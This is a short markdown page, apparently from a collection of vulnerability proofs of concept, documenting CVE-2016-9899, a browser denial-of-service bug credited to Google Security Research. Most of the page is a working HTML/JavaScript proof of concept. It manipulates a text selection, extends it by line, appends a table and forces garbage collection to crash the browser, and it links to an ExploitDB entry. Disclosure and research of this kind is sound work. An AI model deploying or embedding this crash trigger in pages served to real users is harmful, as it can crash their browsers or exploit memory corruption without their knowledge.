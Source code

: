 #  CVE-2016-9899

- Date: 2017-03-20
- Credit: Google Security Research


## Describe

DoS

## PoC

```javascript
<style>
body { display: table }
</style>
<script>
function freememory() {
  try { fuzzPriv.forceGC(); } catch(err) { alert('Please install domFuzzLite3'); }
}
function go() {
  var s = document.getSelection();
  window.find("1",true,false,true,false);
  s.modify("extend","forward","line");
  document.body.append(document.createElement("table"));
  freememory()
}
</script>
<body onload=go()>
<table>
<th>u~Z1Cqn`aA}SOkre=]{</th>
</table>
<progress></progress>
```

## Reference

- [ExploitDB](https://www.exploit-db.com/exploits/41660/)